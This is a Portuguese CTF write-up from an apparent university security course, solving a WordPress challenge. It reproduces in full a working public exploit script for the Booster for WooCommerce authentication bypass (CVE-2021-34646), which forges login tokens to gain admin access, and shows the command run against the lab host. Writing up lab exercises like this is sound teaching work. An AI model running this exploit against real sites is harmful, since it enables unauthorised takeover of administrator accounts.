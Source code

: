 # Secure WP hosting
- Primeiro verificamos o endereço ip do site e para isso corremos o seguinte comando `nslookup ctf-sp.dcc.fc.up.pt` o que nos deu:
  ```
  Server:		127.0.0.53
  Address:	127.0.0.53#53

  Non-authoritative answer:
  Name:	ctf-sp.dcc.fc.up.pt
  Address: 172.18.10.10
  ```
- Fizemos uma pesquisa de eexploit para wordpress, e encontramos o seguinte [Exploit Wordpress](https://www.exploit-db.com/exploits/50299).
  
  ```python
  # Exploit Title: WordPress Plugin WooCommerce Booster Plugin 5.4.3 - Authentication Bypass
  # Date: 2021-09-16
  # Exploit Author: Sebastian Kriesten (0xB455)
  # Contact: https://twitter.com/0xB455
  #
  # Affected Plugin: Booster for WooCommerce
  # Plugin Slug: woocommerce-jetpack
  # Vulnerability disclosure: https://www.wordfence.com/blog/2021/08/critical=-authentication-bypass-vulnerability-patched-in-booster-for-woocommerce/
  # Affected Versions: <= 5.4.3
  # Fully Patched Version: >= 5.4.4
  # CVE: CVE-2021-34646
  # CVSS Score: 9.8 (Critical)
  # Category: webapps
  #
  # 1:
  # Goto: https://target.com/wp-json/wp/v2/users/
  # Pick a user-ID (e.g. 1 - usualy is the admin)
  #
  # 2:
  # Attack with: ./exploit_CVE-2021-34646.py https://target.com/ 1
  #
  # 3:
  # Check-Out  out which of the generated links allows you to access the system
  #
  import requests,sys,hashlib
  import argparse
  import datetime
  import email.utils
  import calendar
  import base64

  B = "\033[94m"
  W = "\033[97m"
  R = "\033[91m"
  RST = "\033[0;0m"

  parser = argparse.ArgumentParser()
  parser.add_argument("url", help="the base url")
  parser.add_argument('id', type=int, help='the user id', default=1)
  args = parser.parse_args()
  id = str(args.id)
  url = args.url
  if args.url[-1] != "/": # URL needs trailing /
          url = url + "/"

  verify_url= url + "?wcj_user_id=" + id
  r = requests.get(verify_url)

  if r.status_code != 200:
          print("status code != 200")
          print(r.headers)
          sys.exit(-1)

  def email_time_to_timestamp(s):
      tt = email.utils.parsedate_tz(s)
      if tt is None: return None
      return calendar.timegm(tt) - tt[9]

  date = r.headers["Date"]
  unix = email_time_to_timestamp(date)

  def printBanner():
      print(f"{W}Timestamp: {B}" + date)
      print(f"{W}Timestamp (unix): {B}" + str(unix) + f"{W}\n")
      print("We need to generate multiple timestamps in order to avoid delay related timing errors")
      print("One of the following links will log you in...\n")

  printBanner()



  for i in range(3): # We need to try multiple timestamps as we don't get the exact hash time and need to avoid delay related timing errors
          hash = hashlib.md5(str(unix-i).encode()).hexdigest()
          print(f"{W}#" + str(i) + f" link for hash {R}"+hash+f"{W}:")
          token='{"id":"'+ id +'","code":"'+hash+'"}'
          token = base64.b64encode(token.encode()).decode()
          token = token.rstrip("=") # remove trailing =
          link = url+"my-account/?wcj_verify_email="+token
          print(link + f"\n{RST}")
  ```
  
- Para exxecutá-lo foi preciso ccorrer o seguinte comando `python3 desafio1.py http://172.18.10.10:5001 1`, é importante que seja com *python3*. Ler os comentários do programa para perceber melhor como funciona.
- Ao executar o progama foi nos dado 3 links:
 ![image](https://github.com/DCC-FCUP-SP/sp2223-t02g10/assets/102924343/b5e1c598-988d-4d04-b4ad-f6a475a56e23)
  
- Entramos nestes links todos e adamos a explorar um pouco, visto que tinhamos feito login como admins:
  ![image](https://github.com/DCC-FCUP-SP/sp2223-t02g10/assets/102924343/5b9529ee-c298-43ec-bcd8-f53629485c1c)

- por acaso encontramos a flag nos 'posts' num que dizia 'Message to our employeers', a flag é:
  ```
  flag{please don't bother me}
  ```


